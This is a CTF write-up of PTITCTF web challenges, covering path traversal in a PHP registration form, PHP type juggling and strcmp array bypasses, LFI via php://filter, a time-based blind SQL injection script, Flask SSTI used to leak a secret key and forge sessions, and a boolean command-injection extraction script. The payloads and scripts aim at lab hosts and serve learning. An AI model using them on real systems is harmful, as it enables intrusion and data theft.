









The contest takes place for 6 hours. I solved 2/5 challenges on time (Welcome and Login Login Login). This write-up had just finished after that. Thanks PTIT University for hosting this context. Thanks nhthongDfVn for great challenges and your enthusiasm!

## Challenges

- [Challenges](#challenges)
- [Welcome](#welcome)
- [Login Login Login](#login-login-login)
- [PISBLOG](#pisblog)
- [Covid](#covid)
- [References](#references)

[References](#references)

## Welcome
Pieces of flag hidden on the website.<br>
- **robots.txt**: `PTITCTF{h0c_v`
- **js/free.js**: `13n_h04n6_614_`
- **index.html**: `x1n_ch40}`

Flag: `PTITCTF{h0c_v13n_h04n6_614_x1n_ch40}`

## Login Login Login

Go to `register.php?view_source` to get source.

```php
<?php

if (isset($_GET['view_source'])) {
    highlight_file(__FILE__);
    die();
}
include_once 'config.php';

session_start();

function get_absolute_path($path)
{
    $unix = substr($path, 0, 1) === '/';

    $path = str_replace(array('/', '\\'), DIRECTORY_SEPARATOR, $path);
    $parts = array_filter(explode(DIRECTORY_SEPARATOR, $path), 'strlen');
    $absolutes = array();
    foreach ($parts as $part) {
        if ('.' == $part) continue;
        if ('..' == $part) {
            array_pop($absolutes);
        } else {
            $absolutes[] = $part;
        }
    }

    $final_path = implode(DIRECTORY_SEPARATOR, $absolutes);
    if ($unix) {
        $final_path = '/' . $final_path;
    }

    return $final_path;
}

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    if ($_GET['action'] == 'register' && isset($_POST['username']) && isset($_POST['password']) && isset($_POST['password']) && !empty($_POST['confirm-password']) && !empty(trim($_POST['username']))) {
        $username = trim($_POST['username']);
        $username = str_replace(array('../', '..\\'), '', $username); // ^_^

        $password = $_POST['password'];
        $user_dirs = glob(getcwd() . '/users/*');
        foreach ($user_dirs as $user_dir) {
            $user_dir_name = basename($user_dir);
            if ($user_dir_name == $username) {
                $error = 'The username already exists!';
                break;
            }
        }

        if (!isset($error)) {
            $user_dir = get_absolute_path(getcwd() . '/users/' . $username);
            $base_dir = get_absolute_path(getcwd() . '/users');
            if (strpos($user_dir, $base_dir) === false) {  // \~(*o*)~/
                $error = 'Invalid username!';
            } else {
                if (!isset($error)) {
                    if (!file_exists($user_dir) && !mkdir($user_dir, 0755, true)) {
                        $error = 'Cannot create directory!';
                    } else {
                        $password_file = $user_dir . '/' . PASSWORD_FILENAME;
                        if (file_put_contents($password_file, md5($password)) !== false) {

                            $_SESSION['username'] = $username;

                            header("Location: index.php");
                            exit();
                        } else {
                            $error = 'Cannot write file!';
                        }
                    }
                }
            }
        }

    } else if ($_GET['action'] == 'login' && isset($_POST['username']) && isset($_POST['password'])) {
        $username = $_POST['username'];
        $password = $_POST['password'];

        $user_dir = get_absolute_path(getcwd() . '/users/' . $username);
        if (strpos($user_dir, getcwd()) == -1) {
            $errror = 'Invalid username';
        }

        if (!isset($error)) {
            $password_file = $user_dir . '/' . PASSWORD_FILENAME;
            if (file_exists($password_file)) {
                $password_md5 = file_get_contents($password_file);
                if (md5($password) == $password_md5) {
                    if ($username == 'admin') {
                        $new_password = md5($password . SECRET);
                        file_put_contents($password_file, $new_password);
                    }

                    $_SESSION['username'] = $username;

                    header('Location: index.php');
                    die();
                } else {
                    $error = 'Invalid Credentials!';
                }
            } else {
                $error = 'Invalid Credentials!';
            }
        }
    }
} else {
    if (isset($_GET['action']) && $_GET['action'] == 'logout') {
        unset($_SESSION['username']);

        header('Location: auth.php');
        die();
    }
}
?>
```

<p>Website will store authentication data in folder <code>users/{username}/PASSWORD_FILENAME</code>. <br><br>
The vulnerable code is here:</p>
<pre><code class="language-php">$username = str_replace(array('../', '..\\'), '', $username); // ^_^
</code></pre>
<p>We can put simple payload to attack path traversal, make your user authenticate locates at same file as admin. Sign up with info:</p>
<pre><code class="language-php">username = "....//users/admin"; // --> "../user/admin"
password = "whatever";
</code></pre>
<p>Login and get flag.</p>
<h2 id="cmplogin">CMP Login</h2>
<p>This is multiple tasks challenge.</p>
<h3 id="task1useragent">Task 1: User-Agent</h3>
<p>The first task is a little tricky for me ...  <br><br>
You have to access the server with <code>User Agent: Impostor</code>. But it's still not enough, looks like the server check string with:</p>
<pre><code class="language-php">...
if (!strpos($_SERVER['HTTP_USER_AGENT'],'Impostor'))
...
</code></pre>
<p>If <code>Impostor</code> is start of <strong>User-Agent</strong> string, <code>strpos</code> will return <code>0</code>, and you still will not pass.<br>
The <strong>User-Agent</strong> must be in <code>/.+/Imposter</code> format.</p>
<pre><code>User-Agent: foo Imposter
</code></pre>
<p>Then, we will come to the core part at <code>962d13fd2a584598d5f68c4408169e22.php</code>. Source code is also available here.</p>
<h3 id="task2typejuggling">Task 2: Type Juggling</h3>

```php
$secret="<fake fake>";
session_start();
$data="";
if (!isset($_SESSION['data'])) { 
    $data="";
    $_SESSION['data']=""; 
}
else{
    $data= $_SESSION['data'];
}

if (isset($_GET['I']) && !empty($_GET['I'])){
    if ($_GET['I']==="Crewmates"){
        if (isset($_GET['user_data']) && !empty($_GET['user_data'])){
            if (!preg_match("/user_data/is",$_SERVER['QUERY_STRING'])){
                $shavalue=sha1($_GET['user_data']);
                $_SESSION['data']=$shavalue.$secret;
                if ($shavalue==$data){
                    header("Location: <next page>");
                }
                else{
                    echo "Close";
                }
            }
            else die ("Don't hack");
        }
        }
    else {
        header("Location: <current url>");
    }
}
```

<p>The first part, to use <code>user_data</code> parameter, we have to bypass <code>preg_match()</code>:</p>
<pre><code class="language-php">...
if (!preg_match("/user_data/is",$_SERVER['QUERY_STRING']));
...
</code></pre>
<p>It's can be done by <strong>URL encode</strong>.</p>
<pre><code>?user%5fdata[]={input_data}
</code></pre>
<p>The second part is checking hash value:</p>
<pre><code class="language-php">if($shavalue==$data)
</code></pre>
<p>Summary the source code, we have:</p>
<pre><code class="language-php">$_SESSION['data'] = $shavalue.$secret;
$data= $_SESSION['data'];
// BUT
$data !== $shavalue.$secret;
</code></pre>
<p><em><strong>What's wrong?</strong></em><br><br>
This part of code:</p>
<pre><code class="language-php">if (!isset($_SESSION['data'])) { 
    $data="";
    $_SESSION['data']=""; 
}
else{
    $data= $_SESSION['data'];
}
</code></pre>
<p>Will make the value of <code>$data</code> always empty in the first request:</p>
<pre><code>$data = "";
</code></pre>
<p><em><strong>How about $shavalue?</strong></em><br><br>
In <strong>PHP</strong>, <code>sha1(array()) === NULL</code>:<br></p>
<p></p>
<p>And<br></p>
<p></p>
<p>So, when <code>$data === ""</code> and <code>$shavalue === NULL</code>, we're going to pass this part. The payload:  <br></p>
<pre><code>curl -b "SESSIONID=" "http://server.com/962d13fd2a584598d5f68c4408169e22.php?I=Crewmates&user%5fdata[]="
</code></pre>
<p>It leads us to <code>21232f297a57a5a743894a0e4a801fc3.php</code>.</p>
<h3 id="task3cmplogin">Task 3: CMP Login</h3>
<p>The clue in the login page:</p>
<pre><code>StRcMp CoMpAnY very sercure
</code></pre>
<p><code>strcmp()</code> is <a href="https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/">vulnerable</a>. So the final payload is:</p>
<pre><code class="language-shell">curl -X POST -d "username=admin&pass[]=ab" http://localhost:8003/21232f297a57a5a743894a0e4a801fc3.php
</code></pre>
<p>Flag: <code>PTITCTF{PasswordIsVeryStrongSoThatYouCanNotGuessOrBypass}</code></p>

## PISBLOG

<h3 id="task1localfileinclusion">Task 1: Local File Inclusion</h3>
<p>Endpoint <code>policy.php?q=/etc/passwd</code> has <strong>Local File Inclusion</strong>. But the server not allow <code>base64</code> string in query. So, we can not use <code>?q=php://filter/convert.base64-encode/resource=index.php</code> to read files content. Rot 13 <code>php://filter/string.rot13/resource=index.php</code> is not work too, because it's not convert <? tag --> content not show up.</p>
<p>But, i found <a href="https://www.php.net/manual/en/filters.convert.php">convert.iconv.*</a>.</p>
<pre><code>?q=php://filter/convert.iconv.utf-16le.utf-8/resource=index.php
</code></pre>
<p>It's read data in <code>utf-16el</code> encode, and output in <code>utf-8</code>.</p>
<p></p>
<p><a href="https://onlineutf8tools.com/convert-utf8-to-utf16">Convert</a> it back.:</p>
<p></p>
<p>And thanks my teamate <strong>@catafact</strong> for this script:</p>

```python
data = "3f3c 6870 ... 3e6c 0a0d"
S = data.replace(' ', '')
print(S)

for i in range(0, len(S), 4):
    x = int(S[i+2:i+4], 16)
    print(chr(x), end='')
    x = int(S[i:i+2], 16)
    print(chr(x), end='')
```

<p>Now, we have source:</p>

```php
<?php
        ini_set('display_errors',0);
        session_start();
        include_once("db.php");
        if ($db->connect_errno){
        die('Could not connect');
    }
    function isExist($email){
        global $db;
        $query="select * from info where email='".$email."'";
        $result=$db->query($query);
        if (@$result->num_rows > 0) return True; else return False;
    }
    function filter($name){
        if (preg_match ("/drop|delete|update|insert|into|file_get_contents|load_file|outfile|column|ascii|ord|sleep|benchmark /is",$name))
                return False;
        return True;
    }

    if (isset($_POST['name'])||!empty($_POST['name'])||isset($_POST['email'])||!empty($_POST['email'])){
        $name= $_POST['name'];
        $email=$_POST['email'];
        if (filter($name)===True&&filter($email)===True){
                if (isExist($email)===False){
                $query = $db->prepare("INSERT INTO info (name,email) VALUES (?, ?)");
                        $query->bind_param("ss", $name, $email);
                        $query->execute();
                }
        }
        echo "Success";
    }
?>
```

<p>The <code>isExist()</code> function is vulnerable to <strong>SQL Injection</strong> in <code>email</code> parameter. But there are some filters:</p>
<pre><code class="language-php">function filter($name){
    if (preg_match ("/drop|delete|update|insert|into|file_get_contents|load_file|outfile|column|ascii|ord|sleep|benchmark /is",$name))
            return False;
    return True;
}
</code></pre>
<p>When looking closer, we can see that the filter matches <code>benchmark </code> (include space) not <code>benchmark</code> pattern. The rest is to write the time-based script to extract the data.</p>
<h3 id="extracttablename">Extract table name</h3>
<p><code>QUERY = "' UNION SELECT null,null,(IF(BINARY SUBSTRING((SELECT table_name FROM information_schema.tables where TABLE_SCHEMA = database() and table_name != 'info'),{pos},1) = BINARY '{char}',BENCHMARK(5000000,ENCODE('MSG','by seconds')),null)) FROM info; -- -"</code><br>
-> Table: <code>get_point</code></p>
<h3 id="extractflag">Extract flag</h3>
<p>Because <code>column</code> is in black list, we have to extract data without column name. Follow hint to <a href="https://tsublogs.wordpress.com/2017/06/07/pentest-qa-cung-tsu-5-sql-injection-without-information_schema/"><strong>@tsu</strong> blog</a><br>
The flag index is 2 in <code>get_point</code> table:<br>
<code>QUERY = "' UNION SELECT null,null,(IF(SUBSTRING((SELECT col_1 from (SELECT 1 as col_1 union select * from get_point limit 1 offset 2) x_table),{pos},1) = BINARY '{char}',BENCHMARK(5000000,ENCODE('MSG','by seconds')),null)) FROM info; -- -"</code></p>
<h3 id="fullscript">Full script</h3>

```python
import string, requests

# Extract table name
QUERY = "' UNION SELECT null,null,(IF(BINARY SUBSTRING((SELECT table_name FROM information_schema.tables where TABLE_SCHEMA = database() and table_name != 'info'),{pos},1) = BINARY '{char}',BENCHMARK(5000000,ENCODE('MSG','by seconds')),null)) FROM info; -- -"
# Extract flag
QUERY = "' UNION SELECT null,null,(IF(SUBSTRING((SELECT col_1 from (SELECT 1 as col_1 union select * from get_point limit 1 offset 2) x_table),{pos},1) = BINARY '{char}',BENCHMARK(5000000,ENCODE('MSG','by seconds')),null)) FROM info; -- -"
URL = "http://localhost:8007/index.php"
data = {
    "name": "whatever",
    "email": QUERY
}
list_chars = string.printable.replace('%','')
output = ""
pos = 0
while True:
    pos += 1
    for char in list_chars:
        data = {
            "name": "whatever",
            "email": QUERY.format(char=char, pos=str(pos))
        }
        request = requests.post(URL,data=data)
        if (request.elapsed.total_seconds() > 0.5): # True
            output += char
            print("[*] Output: " + output + "...")
            break

# PTITCTF{u_Kn0w_7ha7_15_5ql_71M3ba53d_1nJ3c710n}
```

<p></p>
<p>Flag: <code># PTITCTF{u_Kn0w_7ha7_15_5ql_71M3ba53d_1nJ3c710n}</code></p>

## Covid

<p>When buying <code>CV n send to 1407</code>, we will get <a href="https://drive.google.com/file/d/1nfmITOftVJI51_bhqdgKilZsUNihsVyt/view?usp=sharing">source code</a>:</p>

```python
from flask import Flask, render_template,json,request,render_template_string,redirect,url_for
import subprocess
import shlex
import urllib.parse
import re
from flask import Flask, session
app= Flask(__name__)
app.config['SECRET_KEY'] = '<Some string like 1337>'
flag="<Some string like PTITCTF>"
with open("opt.txt", "r") as file:
    opt_key = file.read().rstrip()

def validate_cookie():
	username = session.get('username')
	money = session.get('money')
	if username and money:
		return True
	else:
		return False

@app.route('/news', methods =['POST','GET'])
def news():
	if not validate_cookie():
		return render_template('info.html')
	return render_template('news.html')

@app.route('/us', methods =['POST','GET'])
def us():
	return render_template('us.html')

@app.route('/', methods =['POST','GET'])
def index():
	if request.method=='POST':
		name=request.form.get('name') or None
		print (name)
		if name==None or len(name)<4 or len(name)>15:
			return render_template('info.html',err="Tên phải từ 5-10 kí tự")
		session['username'] = name
		session['money'] = 2000
		return redirect(url_for('news'))
	else:
		return render_template('info.html')
@app.route('/store', methods =['POST','GET'])
def store():
	if not validate_cookie():
		return render_template('info.html')
	if request.method=='POST':
		category=request.form.get('category') or None
		number= request.form.get('number') or None
		if number:
			if number.isdigit()==False:
				return render_template('index.html', err="Chỉ nhập số")
		else:
			return render_template('index.html', err="Không hợp lệ")
		number= int(number)
		if category:
			if len(category)>15:
				return render_template('index.html',err="Không hợp lệ")
			if filter(category):
				if execute(category, number):
					if category=="cv":
						return render_template('index.html',err="Thank you!! Here is your award:")
					else:
						return render_template('index.html',err="Mua hàng thành công")
				else:
					return render_template('index.html',err="Bạn không đủ tiền để mua")
			else:
				return show_error(category)
		else:
			return render_template('index.html')
	else:
		return render_template('index.html')

@app.route('/flag', methods =['POST','GET'])
def show_flag():
	if not validate_cookie():
		return render_template('info.html')
	if request.method=='POST':
		otp= request.form.get('otp') or None
		if otp and len(otp)>5:
			if execute('flag',1) and otp==opt_key:
				return render_template('flag.html', flag=flag)
			return render_template('flag.html', flag="Giao dịch thất bại, ban mat 10000$")
		return render_template('flag.html', flag="Mã OTP không hợp lệ")
	return render_template('flag.html', flag='')
def check_command(s):
    return any(i.isdigit() for i in s)
def filter(command):
	blacklist=['curl','rm','mkdir','nano','vi','vim','head','tail','less','more','"',"\\",';','wget','\'','`','[',']','|','&','#','<','>']
	command=command.lower()
	if check_command(command):
		return False
	for item in blacklist:
		if item in command:
			return False
	return True
def execute(category,number):
    command="cat shop/"+category+".txt" 
    okay=False
    p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.STDOUT)
    for line in p.stdout.readlines():
       	if line.isdigit():
       		num=int(line)
       		total= num*number
       		your_money=session.get('money')
       		if total<=your_money:
       			session['money']=your_money-total
       			okay=True
       	print(line)
    retval = p.wait()
    return okay


def show_error(keyword):
	string ='''<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Forbiden</title>
<h1>Forbiden</h1>
<p> Your word: {} is in our blacklist</p>
'''.format(keyword)
	return render_template_string(string)
@app.errorhandler(404)
def not_found(error):
    keyword='url'
    string ='''<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Not Found</title>
<h1>Not Found</h1>
'''.format(keyword)
    return render_template_string(string), 404

if __name__=="__main__":
	app.run(host='0.0.0.0', port=8010,debug=False)

```

<p>In <code>show_error(keyword)</code> function have <strong>Server Side Template Injection (SSIJ)</strong>, check which payload:</p>
<pre><code>category={{7*7}}&number=1
</code></pre>
<p></p>
<p>Because the <code>category</code> is limited to 15 characters, it is hard to <strong>RCE</strong>. But we can leak some important info by <code>{{config}}</code>:</p>
<p></p>
<p>Character <code>'</code> at the end of payload is to match <code>filter()</code> function. It triggers <strong>SSTJ</strong> and show data up.</p>
<p>Now we have Flask <code>SECRET_KEY='Sorry_but_i_can_not_give_you_flag'</code>. Re build app with this <code>SECRET_KEY</code> and we can sign valid session with arbitrary data:</p>

```python
from flask import Flask, session, render_template_string
app= Flask(__name__)
app.config['SECRET_KEY'] = 'Sorry_but_i_can_not_give_you_flag'

@app.route('/', methods =['POST','GET'])
def index():
    session['username'] = "CustomUser"
    session['money'] = 100000000000000000000000000
    return render_template_string("<h1>Hello</h1>")

if __name__=="__main__":
	app.run(host='0.0.0.0', port=8011,debug=True)
```

<p>Go to <code>0.0.0.0:8011</code> and get session: <code>session=.eJyrVsrNz0utVLIyNMAJdJRKi1OL8hJzU5WslBKTEotTUpRqAaX6D10.X3tCxw.X9cG5T7JYjLtFFY_jVvdOY3MKdQ</code> (<code>money=100000000000000000000000000</code>)</p>
<p>The last task is leak <code>opt_key</code>. I have a idea. The <code>execute()</code> function is vulnerable to <strong>Path Traversal</strong>, so if input <code>category=../opt&number=1</code>, amount we lose will be the content of <code>opt.txt</code> file. Unfortunately, <code>opt_key</code> seems like not just contain digits, so it can not pass <code>line.isdigit()</code> check.</p>
<p>After hours of trying, i gave up. I pm the author - <strong>nhthongDfVn</strong> for help. He sent me the picture:</p>
<p></p>
<p>Wow, I already knew it is vulnerable to <strong>Command Injection</strong> by <code>$()</code>, but 15 characters limitation got me stuck. <strong>Boolean-based</strong> is familiar to <strong>SQL Injection</strong>, but it's mindset can reuse in this concept.</p>
<p>With payload at endpoint <code>/store</code>:</p>
<pre><code>category=$(grep ^a o*)*
</code></pre>
<p>If grep matches file content <code>/^a/</code> of any file name /o*/ (seems like only opt.txt here), command will become:</p>
<pre><code>cat shop/{file_content}*.txt
</code></pre>
<p>The output of it is error. (<code>cat: ... No such file or directory</code>) and responses fail purchase - <code>"Bạn không đủ tiền để mua"</code></p>
<p>Else if grep not matches, command will become:</p>
<pre><code>cat shop/*.txt
</code></pre>
<p>You will get a successful purchase response and lose money equal to entire value of the items (no problem, we're rich!).</p>
<p>Now, we can detect boolean value. Time to write script.</p>

```python
import string, requests

CMD = "$(grep {opt} o*)*"
URL = "http://localhost:8010/store"
cookies = {'session': '.eJyrVsrNz0utVLIyNMAJdJRKi1OL8hJzU5WslBKTEotTUpRqAaX6D10.X3tCxw.X9cG5T7JYjLtFFY_jVvdOY3MKdQ'}

opt_key = "^" # Check from beginning
while True:
    for char in string.ascii_letters[::]:
        tem_opt_key = opt_key+char
        data = {
            "category": CMD.format(opt=tem_opt_key[-3:]),
            "number": "1"
        }
        request = requests.post(URL,data=data,cookies=cookies)
        if ("Bạn không đủ tiền để mua" in request.text): # True
            opt_key += char
            print("[+] Opt_key: " + opt_key[1:] + "...")
            break
    else:
        print('[*] Done! opt_key: ' + opt_key[1:])
        break
```
<p></p>
<p>Buy flag with otp <code>vankientuyetmat</code>.</p>
<p>Flag: <code>PTITCTF{Fl4Sk_IS_N07_s3CuR3}</code></p>

## References
<ul>
<li><a href="https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf">https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf</a></li>
<li><a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Type%20Juggling">https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Type Juggling</a></li>
<li><a href="https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/">https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/</a></li>
<li><a href="https://tsublogs.wordpress.com/2017/06/07/pentest-qa-cung-tsu-5-sql-injection-without-information_schema/">https://tsublogs.wordpress.com/2017/06/07/pentest-qa-cung-tsu-5-sql-injection-without-information_schema/</a></li>
</ul>